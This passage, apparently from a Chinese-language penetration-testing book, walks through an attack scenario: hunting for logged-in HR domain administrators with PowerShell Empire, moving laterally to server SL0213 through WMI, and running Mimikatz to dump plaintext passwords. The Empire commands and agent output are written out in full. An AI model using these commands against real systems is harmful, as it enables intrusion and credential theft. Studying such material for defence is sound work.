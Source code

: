 原理很简单：我们不断地对照不同GBSALES和GBSHOP服务器（超过400台机器）上当前的活跃用户交叉检查这个列表。

假如在机器上找到一个GBHR管理员，我们连接到它，使用Mimikatz dump出明文密码！

如果我们运气不好（有时活动很少），我们会在几个小时后再试一次。毕竟，在某个时间点，人力资源管理帐户将获取GBSHOP或GBHR资源是合乎逻辑的。

为什么不先建立双向信任呢。
```
(Empire: salesFTP) > usemodule
situational_awareness/network/powerview/user_hunter
(Empire: user_hunter) > execute
```
![](chap5/chap5-15.jpg)

在属于GBSALES域的服务器SL0213上似乎有一些有趣的活动。我们通过使用WMI生成远程Empire代理来移动到该服务器：
```
(Empire: salesFTP) > usemodule lateral_movement/invoke_wmi
(Empire: invoke_wmi) > set Listener FrontGun_List
(Empire: invoke_wmi) > set ComputerName SL0213.GBSALES.CORP
(Empire: invoke_wmi) > run
[+] Initial agent BHNS2HZGPF43TDRX from 10.30.30.213 now active
(Empire: invoke_wmi) > interact BHNS2HZGPF43TDRX
(Empire: BHNS2HZGPF43TDRX) > rename SL0213
(Empire: SL0213) >
```

我们现在要做的就是把Mimikatz释放到目标身上：
```
(Empire: SL2013) > mimikatz
Job started: Debug32_md6ll
```
![](chap5/chap5-16.jpg)
